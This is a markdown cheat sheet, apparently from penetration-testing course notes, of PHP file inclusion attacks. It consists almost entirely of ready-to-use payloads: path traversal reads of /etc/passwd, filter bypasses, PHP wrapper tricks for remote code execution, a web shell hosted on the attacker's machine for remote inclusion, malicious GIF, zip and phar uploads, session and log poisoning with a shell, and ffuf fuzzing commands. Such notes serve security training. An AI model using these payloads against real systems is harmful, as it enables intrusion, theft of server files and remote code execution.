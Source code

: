 ```yaml
---
title: File Inclusion
---
```


# Local File Inclusion

| **Command**   | **Description**   |
| --------------|-------------------|
| **Basic LFI** |
| `/index.php?language=/etc/passwd` | Basic LFI | 
| `/index.php?language=../../../../etc/passwd` | LFI with path traversal | 
| `/index.php?language=/../../../etc/passwd` | LFI with name prefix |
| `/index.php?language=./languages/../../../../etc/passwd` | LFI with approved path |
| **LFI Bypasses** | 
| `/index.php?language=....//....//....//....//etc/passwd` | Bypass basic path traversal filter |
| `/index.php?language=%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%65%74%63%2f%70%61%73%73%77%64` | Bypass filters with URL encoding |
| `/index.php?language=non_existing_directory/../../../etc/passwd/./././.[./REPEATED ~2048 times]` | Bypass appended extension with path truncation (obsolete) |
| `/index.php?language=../../../../etc/passwd%00` | Bypass appended extension with null byte (obsolete) |
| `/index.php?language=php://filter/read=convert.base64-encode/resource=config` | Read PHP with base64 filter |

# Remote Code Execution

| **Command**   | **Description**   |
| --------------|-------------------|
| **PHP Wrappers** |
| `/index.php?language=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8%2BCg%3D%3D&cmd=id` | RCE with data wrapper | 
| `curl -s -X POST --data '<?php system($_GET["cmd"]); ?>' "http://<SERVER_IP>:<PORT>/index.php?language=php://input&cmd=id"` | RCE with input wrapper | 
| `curl -s "http://<SERVER_IP>:<PORT>/index.php?language=expect://id"` |  RCE with expect wrapper | 
| **RFI** |
| `echo '<?php system($_GET["cmd"]); ?>' > shell.php && python3 -m http.server <LISTENING_PORT>` | Host web shell | 
| `/index.php?language=http://<OUR_IP>:<LISTENING_PORT>/shell.php&cmd=id` |  Include remote PHP web shell | 
| **LFI + Upload** | 
| `echo 'GIF8<?php system($_GET["cmd"]); ?>' > shell.gif` | Create malicious image | 
| `/index.php?language=./profile_images/shell.gif&cmd=id` | RCE with malicious uploaded image | 
| `echo '<?php system($_GET["cmd"]); ?>' > shell.php && zip shell.jpg shell.php` | Create malicious zip archive 'as jpg' | 
| `/index.php?language=zip://shell.zip%23shell.php&cmd=id` | RCE with malicious uploaded zip | 
| `php --define phar.readonly=0 shell.php && mv shell.phar shell.jpg` | Create malicious phar 'as jpg' | 
| `/index.php?language=phar://./profile_images/shell.jpg%2Fshell.txt&cmd=id` | RCE with malicious uploaded phar | 
| **Log Poisoning** | 
| `/index.php?language=/var/lib/php/sessions/sess_nhhv8i0o6ua4g88bkdl9u1fdsd` | Read PHP session parameters | 
| `/index.php?language=%3C%3Fphp%20system%28%24_GET%5B%22cmd%22%5D%29%3B%3F%3E` | Poison PHP session with web shell | 
| `/index.php?language=/var/lib/php/sessions/sess_nhhv8i0o6ua4g88bkdl9u1fdsd&cmd=id` | RCE through poisoned PHP session | 
| `curl -s "http://<SERVER_IP>:<PORT>/index.php" -A '<?php system($_GET["cmd"]); ?>'` | Poison server log | 
| `/index.php?language=/var/log/apache2/access.log&cmd=id` | RCE through poisoned PHP session | 

# Misc

| **Command**   | **Description**   |
| --------------|-------------------|
| `ffuf -w /opt/useful/SecLists/Discovery/Web-Content/burp-parameter-names.txt:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?FUZZ=value' -fs 2287` | Fuzz page parameters | 
| `ffuf -w /opt/useful/SecLists/Fuzzing/LFI/LFI-Jhaddix.txt:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?language=FUZZ' -fs 2287` | Fuzz LFI payloads | 
| `ffuf -w /opt/useful/SecLists/Discovery/Web-Content/default-web-root-directory-linux.txt:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?language=../../../../FUZZ/index.php' -fs 2287` | Fuzz webroot path | 
| `ffuf -w ./LFI-WordList-Linux:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?language=../../../../FUZZ' -fs 2287` | Fuzz server configurations | 
| [LFI Wordlists](https://github.com/danielmiessler/SecLists/tree/master/Fuzzing/LFI)||
| [LFI-Jhaddix.txt](https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/LFI/LFI-Jhaddix.txt) ||
| [Webroot path wordlist for Linux](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/default-web-root-directory-linux.txt) ||
| [Webroot path wordlist for Windows](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/default-web-root-directory-windows.txt) ||
| [Server configurations wordlist for Linux](https://raw.githubusercontent.com/DragonJAR/Security-Wordlist/main/LFI-WordList-Linux) ||
| [Server configurations wordlist for Windows](https://raw.githubusercontent.com/DragonJAR/Security-Wordlist/main/LFI-WordList-Windows) ||